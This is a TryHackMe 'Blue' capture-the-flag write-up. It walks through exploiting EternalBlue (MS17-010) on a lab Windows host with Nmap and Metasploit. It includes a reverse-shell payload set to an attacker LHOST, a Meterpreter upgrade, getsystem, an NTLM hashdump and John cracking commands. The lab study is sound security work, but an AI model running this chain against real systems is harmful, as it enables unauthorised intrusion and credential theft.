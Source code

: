 # TryHackMe — Blue WriteUp

**Room**: [Blue](https://tryhackme.com/room/blue)
**Category**: Exploitation of SMB & Windows
**Description**: Demonstrate exploitation of MS17-010 (EternalBlue) on a vulnerable Windows host.

---
## Tools
- **Nmap** (service/OS and vulnerability scripts)
- **Metasploit** (exploit and post modules)
- **John** (password cracking)
---
## Target
- IP: `10.201.74.172` (exported as an environment variable for convenience)
```bash
# Set target IP for easier command reuse
export IP=10.201.74.172
```

---
# Task 1: Recon

To start I performed an Nmap scan to identify open ports, services, and potential vulnerabilities:
```bash
nmap -sV -sC -sS -T4 --script vuln $IP
```

![[Pasted image 20250923144301.png]]
**Nmap scan findings**:
- Port 445 open and using `microsoft-ds` (SMB)
- OS fingerprint: Windows 7 Professional
- Nmap script reported the host as vulnerable to **ms17-010** (EternalBlue)
**Answers (TryHackMe)**
- Number of open ports under 1000: **3**
- Vulnerability identified: **ms17-010**
# Task 2: Gain Access 
Metasploit has a module for this exploit, so I started Metasploit to exploit MS17-010.

1. Search and select the EternalBlue module:
```bash
exploit/windows/smb/ms17_010_eternalblue
```
![[Pasted image 20250923145316.png]]

I selected the first module and ran `show options`:
![[Pasted image 20250923145833.png]]

I set the required options:
```bash
set RHOSTS 10.201.74.172
set LHOST <attacker_IP>
set payload windows/x64/shell/reverse_tcp

#replace <attacker_IP> to my IP
```

**Result:** Then I ran with these options set. It was a successful exploitation and a shell was obtained:
![[Pasted image 20250923153221.png]]
# Task 3: Escalate (Privilege Escalation)
Next I upgraded the shell to a Meterpreter. I backgrounded the previously gained shell (CTRL+Z):
![[Pasted image 20250923153422.png]]

I searched shell_to_meterpreter and it shows in the results:
![[Pasted image 20250923153739.png]]

I select:
```bash
post/multi/manage/shell_to_meterpreter
```

and set SESSION to 1:
![[Pasted image 20250923153855.png]]

![[Pasted image 20250923154135.png]]

After converting, I ran:
- `sysinfo` to confirm target OS and session info
- `getsystem` and `getuid` to verify SYSTEM privileges

![[Pasted image 20250923155633.png]]

I reviewed running processes and targeted `lsass` (a common process to extract credentials when privileged):
![[Pasted image 20250923161119.png]]

# Task 4: Cracking
Next I run the command 'hashdump' and retrieved NTLM hashes for `Administrator`, `Guest`, and `Jon`:

![[Pasted image 20250923161335.png]]

In another terminal I saved `Jon`'s NTLM hash to a file and cracked it with John:
```bash
john hashes.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250923162748.png]]

**Cracked password for Jon:** `alqfna22`

With that password I authenticated and accessed the filesystem to retrieve flags:

First flag located at `C:\flag1.txt`
![[Pasted image 20250923164710.png]]

The next flag was located at `C:\Windows\System32\config\flag2.txt`:
![[Pasted image 20250923164410.png]]

Third (final) flag found in user Jon's directory: `C:\Users\Jon\Documents\flag3.txt`:
![[Pasted image 20250923165329.png]]

# Takeaways
- **EternalBlue** targets SMBv1 and can allow remote code execution on unpatched Windows systems.
- **Nmap scripts** (like `--script vuln` used in this CTF) are effective for quickly identifying vulnerable services during reconnaissance.
- **Metasploit** provides modules for exploitation and post-exploitation automation (shell to meterpreter, privilege checks, hash dumping). 
- **Credential harvesting and offline cracking** (hashdump → John) is a practical escalation path on Windows systems with weak passwords.
- **Older and widely-known exploits** are useful for labs and CTFs because they demonstrate exploitation methodology in its simplest form.
- **Patching** is essential.